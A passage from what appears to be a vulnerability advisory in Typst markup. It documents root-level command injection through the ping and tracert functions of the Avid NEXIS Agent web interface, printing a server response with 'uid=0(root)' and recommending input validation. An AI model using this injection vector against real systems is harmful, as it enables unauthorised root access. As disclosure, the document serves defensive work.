 Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=1
Connection: close
```]

The response looks like this (stripped):

#sourcecode(
  highlighted: (24,)
)[```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: text/html; charset=utf-8
Content-Length: 3581
Connection: close

<html>
<head>
  <title>192.168.40.141 - Avid NEXIS&#174; Agent 22.12.0.174</title>
...
<b class='rtop'><b class='r1'></b><b class='r2'></b><b class='r3'></b><b class='r4'></b></b><div id="content">
<div style='display:none;' id='glassPane'><span class='aligner'></span><h4 class='align' id='glassPaneMessage'></h4></div><h2 class="table-title">
Ping Results
</h2>
<div class="plain">
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.040 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.067 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2029ms
rtt min/avg/max/mdev = 0.040/0.050/0.067/0.014 ms
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
</pre></div>
</div>
...
```]

As we can see the server responds with the results of the ping request as well as the command we requested.

#figure([#image("code_exec_lin_ping.png")], caption: [
  Code execution proof via command injection via the `ping` functionality
])


The same attack vector is also working for the "type" `tracert`.

#figure([#image("code_exec_lin_trace.png")], caption: [
  Code execution proof via command injection via the "tracert" functionality
])

=== Mitigations <mitigations>

- Validating that the input is a an IP-Address.
- Validating that the input contains only numbers (or hostnames in case this should be supported as well) characters. Therefore only alphanumeric values as well as the special characters ".", "-" and "\_".

=== Impact <impact>

```